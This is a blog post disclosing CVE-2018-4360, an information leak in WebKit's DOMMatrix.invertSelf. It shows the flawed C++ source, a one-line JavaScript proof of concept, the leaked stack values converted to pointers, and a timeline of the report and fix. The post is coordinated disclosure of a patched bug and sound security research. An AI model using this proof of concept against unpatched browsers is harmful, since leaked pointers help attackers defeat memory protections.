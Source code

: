 ```yaml
---
title: CVE-2018-4360 - WebKit Information Leak with DOMMatrix.invertSelf
date: '2019-02-19 22:21:03'
layout: post
---
```


While playing around with [domato](https://github.com/googleprojectzero/domato) and WebKit, I came across an interesting crash when calling `invertSelf` on a `DOMMatrix`. The bug was in the following code ([Source/WebCore/css/DOMMatrix.cpp](https://github.com/WebKit/webkit/blob/3f2a2d3c748d1b13116717c104410fd32e79d5cc/Source/WebCore/css/DOMMatrix.cpp#L229)):

```cpp
Ref<DOMMatrix> DOMMatrix::invertSelf()
{
    auto inverse = m_matrix.inverse();
    if (!inverse) {
        m_matrix.setMatrix(
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(),
            std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN(), std::numeric_limits<double>::quiet_NaN()
        );
        m_is2D = false;
    }
    m_matrix = inverse.value();
    return Ref<DOMMatrix> { *this };
}
```

This issue is that inverting `m_matrix` can fail and set `inverse` to a nullopt, but `inverse.value()` is still always called overwriting the NaN values with an uninitialised pointer. This will fill up the matrix with random data from the stack, which we can then access:

```javascript
console.log(new DOMMatrix([0, 0, 0, 0, 0, 0]).invertSelf())
```
```
DOMMatrix:
  a: 2.3236913163e-314
  b: 6.9529314086834e-310
  c: 0
  d: 2.121995918e-314
  e: 2.2541024625e-314
  f: 6.9531249123115e-310
  is2D: false
  isIdentity: false
  m11: 2.3236913163e-314
  m12: 6.9529314086834e-310
  m13: 2.2560109e-314
  m14: 2.2561725264e-314
  m21: 0
  m22: 2.121995918e-314
  m23: 2.3487948945e-314
  m24: 2.2541024625e-314
  m31: 2.256111357e-314
  m32: 2.3217606737e-314
  m33: 2.2560109e-314
  m34: 2.2541024625e-314
```

After converting to Int64s using the wonderful scripts from [https://github.com/saelo/jscpwn/](https://github.com/saelo/jscpwn/):
```javascript
0x00007fff18553185
0x0000000100000101
0x00007ffff961eb70
0x00007fff18553185
0x00000002205adf60
0x0000000100000101
0x000000022b4c7e60
0x0000000228479bb0
0x00000002201af0c0
```

The reason that this started crashing was due to the changes made to [WTF's internal std::optional](https://bugs.webkit.org/show_bug.cgi?id=187669) which caused any invalid access to crash instead of using the uninitialised value.

Timeline:
* Jul 4, 2018 - Reported to Apple 
* Jul 6, 2018 - Acknowledgement from Apple
* Jul 9, 2018 - Fix commited to svn
* Sep 17, 2018 - iOS and Safari updated

References:

* [https://github.com/WebKit/webkit/commit/a0b0e01648892b0bb60a01aca619eec85eb27f7a](https://github.com/WebKit/webkit/commit/a0b0e01648892b0bb60a01aca619eec85eb27f7a)
* [https://bugs.webkit.org/show_bug.cgi?id=187669](https://bugs.webkit.org/show_bug.cgi?id=187669)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-4360](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-4360)
* [https://support.apple.com/en-au/HT209106](https://support.apple.com/en-au/HT209106)